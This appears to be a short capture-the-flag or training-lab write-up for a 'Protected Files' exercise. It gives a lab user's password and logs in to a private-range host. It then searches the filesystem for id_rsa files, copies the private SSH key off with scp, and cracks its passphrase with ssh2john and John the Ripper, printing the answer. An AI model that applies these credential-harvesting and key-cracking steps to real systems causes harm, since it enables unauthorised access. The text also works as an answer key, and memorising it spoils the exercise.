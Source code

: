 # Protected Files

### Use the cracked password of the user Kira and log in to the host and crack the "id\_rsa" SSH key. Then, submit the password for the SSH key as the answer.

```bash
#creds kira:L0vey0u1!
ssh kira@10.129.202.64
find / -name *id_rsa* 2>/dev/null
#/home/kira/.ssh/id_rsa
#/home/kira/.ssh/id_rsa.pub
```

lets copy that into our kali then crack it

```bash
scp kira@10.129.202.64:/home/kira/.ssh/id_rsa .  
ssh2john id_rsa > ssh.hash  
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
#L0veme           (id_rsa)     
```

L0veme
